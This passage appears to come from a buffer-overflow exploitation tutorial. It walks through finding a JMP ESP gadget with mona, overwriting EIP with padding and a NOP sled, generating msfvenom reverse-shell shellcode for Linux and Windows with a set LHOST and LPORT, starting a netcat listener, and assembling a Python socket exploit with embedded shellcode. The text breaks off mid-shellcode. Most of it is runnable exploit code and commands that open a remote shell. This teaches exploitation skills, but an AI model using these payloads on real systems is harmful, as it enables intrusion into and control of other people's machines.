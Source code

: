  - Now that we have our payload stored in the location where the `ESP` register is pointing to, and we can control the `EIP`, we now need to search for the `JMP ESP` command somewhere in the application.
```bash
!mona find -s "\xff\xe4" -m APPLICATION_NAME.exe
```
 - We need to do this so we can set the value of the `EIP` to the address where the `JMP ESP` command is located. That way the next instruction will jump to the start of our payload and it will execute it.

 - From the above command we can see that `0x080414C3` and `0x080416BF` are both locations where this command exists.
 - One of these values must be injected into the `EIP` registor:
```python
b'a' * 146 + b'\xbf\x16\x04\x08' + b'\x90' * 32
```
 - We will also put some no operation commands `90` at the end to pad out our payload.
 - The payload is `bf160408` instead of `0x080416BF` because of little endian.

<br>

### 5 - Generate Reverse Shell Payload
 - The final step being putting it all together is to generate our payload that we want to execute.
 - Let's generate a reverse shell to include in our attack payload. We use the `-b` flag to specify the bad characters we discovered earlier. We should include `00` as a bad character as well.
 - LHOST & LPORT is to specify the endpoint for the reverse shell connection. `-f` is for the format.
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.147 LPORT=3155 -b "\x00\x0a" -f c
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.147 LPORT=3155 -b "\x00\x0a" -f c
```
<br>

### 6 - Putting Everything Together
 - Let's now put everything together into a final script and execute the reverse shell on the target.
 - We'll setup a listener for the reverse shell to connect to first:
```bash
nc -nlvp 3155
```

 - Putting everything together into our final script gives us the following:
```python
import sys, socket
from time import sleep

endpointIp = '192.168.20.141'
endpointPort = 31337

buffer = b'a' * 146 + b'\xbf\x16\x04\x08' + b'\x90' * 32

attackPayload = (b"\xdb\xc5\xbd\x44\x96\x83\xbe\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x6b\x17\x83\xc3\x04\x03\x2f\x85\x61\x4b\x53\x41\xe7"
b"\xb4\xab\x92\x88\x3d\x4e\xa3\x88\x5a\x1b\x94\x38\x28\x49\x19"
b"\xb2\x7c\x79\xaa\xb6\xa8\x8e\x1b\x7c\x8f\xa1\x9c\x2d\xf3\xa0"
b"\x1e\x2c\x20\x02\x1e\xff\x35\x43\x67\xe2\xb4\x11\x30\x68\x6a"
b"\x85\x35\x24\xb7\x2e\x05\xa8\xbf\xd3\xde\xcb\xee\x42\x54\x92"
b"\x30\x65\xb9\xae\x78\x7d\xde\x8b\x33\xf6\x14\x67\xc2\xde\x64"
b"\x88\x69\x1f\x49\x7b\x73\x58\x6e\x64\x06\x90\x8c\x19\x11\x67"
b"\xee\xc5\x94\x73\x48\x8d\x0f\x5f\x68\x42\xc9\x14\x66\x2f\x9d"
b"\x72\x6b\xae\x72\x09\x97\x3b\x75\xdd\x11\x7f\x52\xf9\x7a\xdb"
b"\xfb\x58\x27\x8a\x04\xba\x88\x73\xa1\xb1\x25\x67\xd8\x98\x21"
b"\x44\xd1\x22\xb2\xc2\x62\x51\x80\x4d\xd9\xfd\xa8\x06\xc7\xfa"
b"\xcf\x3c\xbf\x94\x31\xbf\xc0\xbd\xf5\xeb\x90\xd5\xdc\x93\x7a"
b"\x25\xe0\x41\x2c\x75\x4e\x3a\x8d\x25\x2e\xea\x65\x2f\xa1\xd5"
b"\x96\x50\x6b\x7e\x3c\xab\xfc\x41\x69\xa7\x6f\x29\x68\xc7\x83"
```